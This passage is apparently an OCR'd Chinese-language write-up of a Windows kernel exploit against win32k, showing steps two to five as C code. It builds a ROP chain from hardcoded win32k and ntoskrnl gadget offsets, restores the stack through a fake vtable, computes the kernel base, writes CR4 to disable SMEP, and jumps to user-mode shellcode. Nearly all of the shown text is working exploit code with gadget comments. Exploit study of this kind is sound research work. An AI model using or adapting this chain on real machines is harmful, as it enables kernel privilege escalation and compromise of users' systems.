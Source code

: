 第二步：因为后面的流程还会调到虚表,必须先修复栈,让第二次调用函数正常返回。

```
01      *(ULONGLONG*)(PAYLOAD_BASE + 0x5038) = win32k_base_addr + 0x14db;    // pop rbx # ret
02       *(ULONGLONG*)(PAYLOAD_BASE + 0x5040) = PAYLOAD_BASE + 0x5100;        // this will clobber the existing vTable object pointer (RBX) ---------------------
03                                                                        //                                                                                |
04  // Setup the new fake vTable at 0x42005100. We don't do anything interesting                                                                            |
05  // with the second call. We just want it to return nicely.                                                                                              |
06       *(ULONGLONG*)(PAYLOAD_BASE + 0x5100) = PAYLOAD_BASE + 0x5110;        // double-dereference to get to gadget                          (actual ROP chain |
07       *(ULONGLONG*)(PAYLOAD_BASE + 0x5108) = PAYLOAD_BASE + 0x5110;        // (arbitrary pointer to pointer)                                 continues here) |
08       *(ULONGLONG*)(PAYLOAD_BASE + 0x5110) = win32k_base_addr + 0x6e314;   // (`RET` gadget)                                                                 |
09                                                                        //                                                                                |
10  // Resume execution. Restore original stack pointer.                                                                                                    |
11       *(ULONGLONG*)(PAYLOAD_BASE + 0x5048) = win32k_base_addr + 0x7018e;   // mov rax, r11 # ret (register holding a value close to original stack pointer) <-
12       *(ULONGLONG*)(PAYLOAD_BASE + 0x5050) = win32k_base_addr + 0x98156;   // pop rcx # ret
13       *(ULONGLONG*)(PAYLOAD_BASE + 0x5058) = 0x8;                          // pop into rcx
14       *(ULONGLONG*)(PAYLOAD_BASE + 0x5060) = win32k_base_addr + 0xee38f;   // add rax, rcx # ret (adjust the stack pointer)
15       *(ULONGLONG*)(PAYLOAD_BASE + 0x5068) = win32k_base_addr + 0x1f8c1;   // push rax # sub eax, 8b480020h # pop rsp # and al, 8 # mov rdi, qword ptr [rsp+10] # mov eax, edx # ret

```

第三步，根据`ntoskrnl!ExAllocatePoolWithTag`的地址硬编码计算出`ntoskrnl.exe`的基址

```
1   ExAllocatePoolWithTag_offset = 0x2a3a50;
2       nt_base_addr = *(ULONGLONG *)(PAYLOAD_BASE + 0x100) - ExAllocatePoolWithTag_offset;

```

第四步，找到ntoskrnl的基址，是为了利用其中操作cr4 SMEP位的代码，关闭SMEP，所以这步就是构建ROP链，关闭SMEP，这里的rop链是通过`DestroyWindow`触发的

```
01  *(ULONGLONG*)(PAYLOAD_BASE + 0x5000) = win32k_base_addr + 0x189a3a;  // xchg eax, esp # sbb al, 0 # mov eax, ebx # add rsp, 0x20 # pop rbx # ret
02      *(ULONGLONG *)(PAYLOAD_BASE + 0x5008) = 0x41414141;                   // filler
03      *(ULONGLONG *)(PAYLOAD_BASE + 0x5010) = 0x41414141;                   // filler
04      *(ULONGLONG *)(PAYLOAD_BASE + 0x5018) = 0x41414141;                   // filler
05      *(ULONGLONG *)(PAYLOAD_BASE + 0x5020) = 0x41414141;                   // filler
06      *(ULONGLONG*)(PAYLOAD_BASE + 0x5028) = win32k_base_addr + 0x19fab;   // pop rax # ret
07      *(ULONGLONG*)(PAYLOAD_BASE + 0x5030) = 0x406f8;                      // pop into rax, cr4 value
08      *(ULONGLONG*)(PAYLOAD_BASE + 0x5038) = nt_base_addr + 0x38a3cc;      // mov cr4, rax # add rsp, 0x28 # ret  (SMEP disabling gadget)
09      *(ULONGLONG *)(PAYLOAD_BASE + 0x5040) = 0x41414141;                   // filler
10      *(ULONGLONG *)(PAYLOAD_BASE + 0x5048) = 0x41414141;                   // filler
11      *(ULONGLONG *)(PAYLOAD_BASE + 0x5050) = 0x41414141;                   // filler
12      *(ULONGLONG *)(PAYLOAD_BASE + 0x5058) = 0x41414141;                   // filler
13      *(ULONGLONG *)(PAYLOAD_BASE + 0x5060) = 0x41414141;                   // filler

1   第五步，这里SMEP已经关闭，直接跳转到用户模式的ShellCode，并且真的去删除CHwndTargetProp对象
1   *(ULONGLONG*)(PAYLOAD_BASE + 0x5068) = PAYLOAD_BASE;                 // return to userland and win!
2   *(ULONGLONG*)(PAYLOAD_BASE + 0x5070) = win32k_base_addr + 0x165010;  // CHwndTargetProp::Delete(void)

```